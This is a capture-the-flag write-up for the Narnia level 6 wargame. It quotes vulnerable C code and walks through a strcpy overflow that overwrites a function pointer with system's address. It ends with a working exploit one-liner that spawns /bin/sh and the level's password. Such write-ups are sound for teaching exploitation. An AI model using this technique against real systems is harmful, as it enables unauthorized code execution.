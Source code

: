 ```C
	/* clear environ */
	for(i=0; environ[i] != NULL; i++)
		memset(environ[i], '\0', strlen(environ[i]));
	/* clear argz    */
	for(i=3; argv[i] != NULL; i++)
		memset(argv[i], '\0', strlen(argv[i]));

	strcpy(b1,argv[1]);
	strcpy(b2,argv[2]);
	//if(((unsigned long)fp & 0xff000000) == 0xff000000)
	if(((unsigned long)fp & 0xff000000) == get_sp())
		exit(-1);
	setreuid(geteuid(),geteuid());
    fp(b1);

	exit(1);
}
```
The vulnerability is obviously in `strcpy` function that allows us to copy from argv to b1 and b2 arrays.

So after few attempts I realized that I can, for some reason, overwrite the fp function pointer.
In gdb I realized that the b2 array, which correspond to argv[2], can overwrites in some way fp pointer.

Let's explore what happens in gdb:

0xffffd5e8:	0x62626262	0x62626262
0xffffd5f0:	0x61610062	0x61616161	0x08040061 -> it's fp pointer overflowed by one 'a'


We can overwrite fp pointer with the address of system function, but what about `/bin/sh` string?
 
We have to put it somewhere in the stack - or we can find it typically in libc(but the address includes some \x00 byte and we cannot pass that as arguments directly).
So I revert the attack and I decided that, for simplicity, b2 will overwrite the stack frames with what I need to hijack the execution.
So after some try I overwrite fp with address of `system` and as arguments I place `/bin/sh;`.
Note that `;`, that's because I cannot put string terminator `\x00` at the end of the string because it will be ignored.
So recall to the fact that ; enables command concatenation I call system for two command: `/bin/sh` as first command and "SOMESHITTYHEX" as second command.
That's work!

```bash
$ ./narnia6 $(python -c 'print "a"*4+" "+"/bin/sh;"*2+"\x40\x19\xe5\xf7"')
```


##### PASS=ahkiaziphu


------------------------------------------------------------------------------------------------------------------------------------


## narnia7 -> narnia8
